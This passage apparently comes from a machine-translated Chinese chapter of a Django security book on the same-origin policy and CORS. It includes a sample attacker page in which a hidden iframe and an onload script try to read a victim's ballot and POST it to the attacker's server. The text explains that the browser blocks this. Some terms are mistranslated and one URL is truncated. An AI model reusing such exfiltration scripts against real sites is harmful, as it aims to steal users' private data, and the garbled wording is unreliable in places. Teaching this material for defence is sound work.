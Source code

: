 # 十七、跨源资源共享

本章涵盖

*   了解同源政策
*   发送和接收简单的 CORS 请求
*   实现 CORS 与 `django-cors-headers`
*   发送和接收预先审核的 CORS 请求

在第 15 章中，你学习了 URL 的协议(方案)、主机和端口是如何定义的。每个浏览器都实行一个*同源策略* ( *SOP* )。该策略的目标是确保只有“相同来源”的文档才能访问某些资源这可以防止来自 mallory.com 的页面未经授权访问来自 ballot.charlie.com 的资源。

把*跨源资源共享* (CORS)当成一种放松浏览器 SOP 的方式。这允许 social.bob.com 从 https://下载字体。它还允许来自 alice.com 的页面向 social.bob.com 发送异步请求。在本章中，我将向您展示如何使用 `django-cors-headers` 安全地创建和使用共享资源。由于 CORS 的性质，本章包含的 JavaScript 比 Python 多。

## 17.1 同源保单

到现在，你已经看到马洛里获得了对许多资源的未授权访问。她用彩虹表破解了查理的密码。她用一个 `Host` 头球攻门接管了鲍勃的账户。她知道爱丽丝和 XSS 投票给了谁。在这一节中，马洛里发起了一次简单得多的攻击。

假设马洛里想知道鲍勃在 2020 年美国总统大选中投票给了谁。她引诱他回到 mallory.com，他的浏览器呈现了以下恶意网页。这个页面悄悄地从 ballot.charlie.com(Bob 当前登录的站点)请求 Bob 的选票表单。然后，包含 Bob 投票的选票表单被加载到一个隐藏的 iframe 中。这触发了一个 JavaScript 事件处理器，该处理器*试图*读取鲍勃的投票并将其发送到马洛里的服务器。

Mallory 的攻击惨败，如下面的清单所示。鲍勃的浏览器阻止她的网页访问 iframe 文档属性，取而代之的是一个 `DOMException` 。SOP 拯救了世界。

清单 17.1 马洛里未能窃取鲍勃的私人信息

```py
<html>
  <script>
    function recordVote(){
      const ballot = frames[0].document.getElementById('ballot');   ❶

      const headers = {
        'Content-type': 'application/x-www-form-urlencoded; charset=UTF-8'
      };
      fetch('/record/', {                                           ❷
        method: 'POST',                                             ❷
        headers: headers,                                           ❷
        body: 'vote=' + ballot.value                                ❷
      });                                                           ❷
    };
  </script>
  <body>
    ...

    <iframe src="https://ballot.charlie.com/"                       ❸
            onload="recordVote()"                                   ❹
            style="display: none;">                                 ❺
    </iframe>
  </body>
</html>
```
